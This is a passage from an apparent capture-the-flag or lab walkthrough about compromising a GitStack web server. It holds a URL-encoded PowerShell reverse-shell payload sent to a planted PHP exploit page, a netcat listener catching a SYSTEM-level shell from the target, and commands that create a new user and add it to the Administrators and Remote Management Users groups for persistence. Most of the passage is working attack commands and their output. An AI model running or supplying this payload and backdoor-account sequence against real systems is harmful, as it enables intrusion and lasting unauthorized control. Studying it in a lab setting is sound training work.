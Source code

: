     %2C32081%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes
    %2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B
    %24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%
    20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Fl
    ush%28%29%7D%3B%24client.Close%28%29%22" http://localhost:32080/web/exploit-[username].php
    "<br />
    ```
## Catching the shell
If all goes well, you should catch the shell through the relay on the attack box
```
nc -nvlp 3333
listening on [any] 3333 ...
connect to [10.50.99.2] from (UNKNOWN) [10.200.98.200] 50108

PS C:\GitStack\gitphp> whoami
nt authority\system
```

# Task 21 - Stabilization and Post Exploitation
Using the NT Authority\System shell, create a new user, add it to the administrators group, and the remote management group
```
PS C:\GitStack\gitphp> net user user-[username] [password] /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup Administrators user-[username] /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup "Remote Management Users" user-[username] /add
The command completed successfully.
```
Verify the addition
```
net user user-[username]
User name                    user-[username]
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            28/03/2021 22:11:19
Password expires             Never
Password changeable          28/03/2021 22:11:19
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Users                
```